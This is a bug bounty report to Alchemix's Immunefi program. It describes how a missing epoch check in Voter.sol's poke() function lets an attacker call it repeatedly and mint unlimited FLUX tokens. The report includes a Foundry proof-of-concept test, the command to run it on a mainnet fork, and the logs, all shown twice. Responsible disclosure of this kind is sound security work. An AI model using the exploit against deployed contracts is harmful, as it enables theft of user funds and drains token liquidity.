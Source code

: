 
# Unauthorized minting of unlimited FLUX in 1 transaction

Submitted on Thu May 02 2024 10:22:35 GMT-0400 (Atlantic Standard Time) by @infosec_us_team for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #30634

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:
- Direct theft of any user funds, whether at-rest or in-motion, other than unclaimed yield

## Description
## Brief/Intro
The absence of the `onlyNewEpoch(_tokenId)` modifier in the `poke(uint256 _tokenId)` function of the `Voter.sol` smart contract allows anyone to call `poke(uint256 _tokenId)` multiple times within the same transaction, inflating his accrued FLUX balance.

Finally, the malicious actor calls `FLUX.claimFlux(_tokenId, _amount)` to mint unlimited tokens.

Link to asset: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol?#L195

To quickly test the exploit add the following foundry test to your existing tests in `alchemix-v2-dao/src/test/FluxToken.t.sol` and run:
 ```bash
forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/{API_KEY} --match-path src/test/FluxToken.t.sol --match-test testRepeatedFluxAccrual -vv
```
> Replace *{API_KEY} * with your Alchemy Api Key.

Foundry test:
```javascript
    function testRepeatedFluxAccrual() external {

        // Attacker's address
        address attacker = address(0x123);

        // Create a veALCX NFT
        uint256 tokenId = createVeAlcx(attacker, 1e18, veALCX.MAXTIME(), true);
        console2.log("Attacker mints 1 veALCX NFT with tokenId:", tokenId);

        // Attacker's balance before
        uint256 fluxBalance = flux.balanceOf(attacker);
        console2.log("Attacker's fluxBalance:", fluxBalance);

        // Attacker's unclaimed flux before
        uint256 unclaimedFlux = flux.getUnclaimedFlux(tokenId);
        console2.log("Attacker's unclaimedFlux:", unclaimedFlux);

        console2.log("------------------> ATTACK STARTS ");
        console2.log("~ Attacker calls Voter.poke(_tokenId) in a loop to inflate his unclaimed FLUX balance");
        for(uint256 i = 0; i < 4; i++) {
            hevm.prank(attacker);
            voter.poke(tokenId);
        }
        console2.log("------------------> ATTACK ENDS");

        unclaimedFlux = flux.getUnclaimedFlux(tokenId);

        // Claim the unclaimed flux
        hevm.prank(attacker);
        flux.claimFlux(tokenId, unclaimedFlux);

        fluxBalance = flux.balanceOf(attacker);
        console2.log("Attacker's fluxBalance after claiming:", fluxBalance);

    }
```

The output will be:
```bash
Ran 1 test for src/test/FluxToken.t.sol:FluxTokenTest
[PASS] testRepeatedFluxAccrual() (gas: 1369039)
Logs:
  Attacker mints 1 veALCX NFT with tokenId: 1
  Attacker's fluxBalance: 0
  Attacker's unclaimedFlux: 0
  ------------------> ATTACK STARTS
  ~ Attacker calls Voter.poke(_tokenId) in a loop to inflate his unclaimed FLUX balance
  ------------------> ATTACK ENDS
  Attacker's fluxBalance after claiming: 3984666793472586540

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 24.00s (17.11s CPU time)
```

## Vulnerability Details
The internal `_vote(...)` function in the `Vote.sol` contract accrues rewards.

One of the public functions that trigger the accrual inside `_vote(...)` is `poke(...)`, which is missing the `onlyNewEpoch(_tokenId)` modifier that ensures rewards are only accrued once per epoch.

Without this modifier, an attacker can repeatedly call the `poke(...)` function within the same transaction inflating their unclaimed FLUX balance and finally mint the tokens by calling `flux.claimFlux(tokenId, unclaimedFlux)`.

## Impact Details

Minting unlimited FLUX tokens has several (quite evident) impacts. Here's some of them:

1- FLUX is an ERC20, minting unlimited FLUX leads to draining all liquidity in all AMMs where this token is deployed.

2- FLUX is used to **boost a veToken holder's voting power** and **exit a ve-position early**, so minting unlimited FLUX will completely destabilize Alchemix's ecosystem.
        
## Proof of concept
## Proof of Concept

To quickly test the exploit add the following foundry test to your existing tests in `alchemix-v2-dao/src/test/FluxToken.t.sol` and run:
 ```bash
forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/{API_KEY} --match-path src/test/FluxToken.t.sol --match-test testRepeatedFluxAccrual -vv
```
> Replace *{API_KEY} * with your Alchemy Api Key.

Foundry tests:
```javascript
    function testRepeatedFluxAccrual() external {

        // Attacker's address
        address attacker = address(0x123);

        // Create a veALCX NFT
        uint256 tokenId = createVeAlcx(attacker, 1e18, veALCX.MAXTIME(), true);
        console2.log("Attacker mints 1 veALCX NFT with tokenId:", tokenId);

        // Attacker's balance before
        uint256 fluxBalance = flux.balanceOf(attacker);
        console2.log("Attacker's fluxBalance:", fluxBalance);

        // Attacker's unclaimed flux before
        uint256 unclaimedFlux = flux.getUnclaimedFlux(tokenId);
        console2.log("Attacker's unclaimedFlux:", unclaimedFlux);

        console2.log("------------------> ATTACK STARTS ");
        console2.log("~ Attacker calls Voter.poke(_tokenId) in a loop to inflate his unclaimed FLUX balance");
        for(uint256 i = 0; i < 4; i++) {
            hevm.prank(attacker);
            voter.poke(tokenId);
        }
        console2.log("------------------> ATTACK ENDS");

        unclaimedFlux = flux.getUnclaimedFlux(tokenId);

        // Claim the unclaimed flux
        hevm.prank(attacker);
        flux.claimFlux(tokenId, unclaimedFlux);

        fluxBalance = flux.balanceOf(attacker);
        console2.log("Attacker's fluxBalance after claiming:", fluxBalance);

    }
```

The output will be:
```bash
Ran 1 test for src/test/FluxToken.t.sol:FluxTokenTest
[PASS] testRepeatedFluxAccrual() (gas: 1369039)
Logs:
  Attacker mints 1 veALCX NFT with tokenId: 1
  Attacker's fluxBalance: 0
  Attacker's unclaimedFlux: 0
  ------------------> ATTACK STARTS
  ~ Attacker calls Voter.poke(_tokenId) in a loop to inflate his unclaimed FLUX balance
  ------------------> ATTACK ENDS
  Attacker's fluxBalance after claiming: 3984666793472586540

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 24.00s (17.11s CPU time)
```